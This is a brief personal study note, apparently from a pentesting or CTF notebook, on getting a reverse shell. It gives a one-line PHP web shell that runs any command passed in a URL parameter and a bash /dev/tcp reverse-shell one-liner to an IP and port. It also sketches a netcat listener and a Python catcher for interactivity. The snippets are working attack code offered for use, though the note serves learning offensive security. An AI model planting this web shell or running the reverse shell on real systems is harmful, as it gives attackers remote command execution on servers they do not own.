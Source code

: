 +++
title = 'Reverse web-shell'
date = 2024-07-22T09:10:24+02:00
draft = false
+++

    ## Reverse shell 

- By passing the php  file we can open the reverse shell 


```php 
<?php system($_GET["cmd"]);?>
```
1. Checkout [reverse shell](https://www.revshells.com/)
2. Use dev tcp to open the shell since [[netcat]] is not avaiable 
	1. ex *sh -i >& /dev/tcp/10.10.10.10/9001 0>&1*
3. Create the listner with the [[netcat]]
4. Create a **python server** that catches the shell and enables interactivity


>[!quote]  [bash_MAIN](/obisdian_ntoes/notes_obsidian/Linux/commands/bash_MAIN.md)